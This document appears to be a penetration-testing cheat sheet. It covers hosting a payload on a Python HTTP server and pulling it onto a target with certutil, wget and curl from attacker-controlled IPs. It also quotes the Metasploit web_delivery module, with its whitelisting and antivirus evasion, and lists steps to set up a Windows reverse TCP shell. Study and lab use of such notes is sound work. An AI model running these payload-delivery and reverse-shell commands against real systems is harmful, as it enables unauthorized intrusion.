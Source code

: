

# **Host the Payload to a Python HTTP server:**
in a python2 environment:

	python -m SimpleHTTPServer 80

in a python3 environment:

	python -m http.server 80



#### In Windows :LoWindows2012: use this built in Windows utility to download a file from the web:
	certutil -urlcache -f http://10.10.45.3/payload.exe payload.exe

Or this utility with `-O` to rename the file:

	wget -O payload.php http://192.168.1.100/file.php

#### Or use curl in Linux :LoLinuxPenguin: :

	curl http://10.10.45.3/payload.exe > payload.exe



# **<mark style="background: #FF5582A6;">MSF</mark> Modules:**




Description:
  This module quickly fires up a web server that serves a payload.

  The module will provide a command to be run on the target machine based on the selected target. The provided command will download and execute a payload using either a specified scripting language interpreter or `"squiblydoo"` via regsvr32.exe for bypassing application whitelisting.

  The main purpose of this module is to quickly establish a session on a target machine when the attacker has to manually type in the command: e.g. Command Injection, RDP Session, Local Access or maybe Remote Command Execution.

  This attack vector does not write to disk so it is less likely to trigger AV solutions and will allow privilege escalations supplied by Meterpreter.

`exploit/multi/script/web_delivery`

for a windows target:
1. `set TARGET PSH\ (Binary)`
2. `set payload windows/shell/reverse_tcp`
3. Disable powershell code from being encoded in base 64 : `set PSH-EncodedCommand false`
4. Then copy the powershell script and run it on the target system....